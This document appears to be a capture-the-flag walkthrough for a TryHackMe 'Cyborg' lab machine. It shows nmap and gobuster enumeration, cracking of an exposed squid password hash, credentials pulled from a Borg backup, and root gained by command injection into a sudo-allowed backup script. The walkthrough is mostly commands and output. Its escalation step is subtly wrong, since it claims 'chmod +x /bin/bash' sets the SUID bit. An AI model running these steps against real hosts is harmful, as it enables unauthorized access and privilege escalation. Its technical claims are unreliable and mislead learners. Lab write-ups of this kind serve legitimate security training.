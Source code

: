 # [Machine](https://tryhackme.com/room/cyborgt8)

- # ENUM
	- ### nmap (`sudo nmap -sS -A -p- -T4 cyborg`)
		- ```PORT   STATE SERVICE VERSION
			22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
			|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
			|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
			80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
			|_http-title: Apache2 Ubuntu Default Page: It works
			|_http-server-header: Apache/2.4.18 (Ubuntu)
			Device type: general purpose
			Running: Linux 4.X
			OS CPE: cpe:/o:linux:linux_kernel:4.15
			OS details: Linux 4.15
			Network Distance: 2 hops
			Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u http://cyborg -x .html,.js,.css,.txt,.php`)
		- #### DIRECTORIES
			- `/admin`
			- `/etc`
			- `/etc/squid`
		- #### FILES
			- `/index.html`
			- `/admin/index.html`

- # EXPLOITATION
	- `http://cyborg/etc/squid/passwd` -> `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`
		- Use `johntheripper` on this `APR1` (`john hash`)
			- Password: `squidward`		
	- There's a [Borg archive](https://borgbackup.readthedocs.io/) , let's extract it with the previous password (`borg extract home/field/dev/final_archive/::music_archive)
		- `note.txt`: `alex:S3cretP@s3`
			- SSH credentials!

- # PRIVILEGE ESCALATION
	- `sudo -l` -> `(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh`
		- There's a script!
			- ```while getopts c: flag
				do
				    case "${flag}" in 
				        c) command=${OPTARG};;
				    esac
				done
				...
				cmd=$($command)
				echo $cmd
				- We can inject this command: `./backup -c "chmod +x /bin/bash"` so bash will have SUID bit set!
					- `bash -p`
						- We're ROOT!
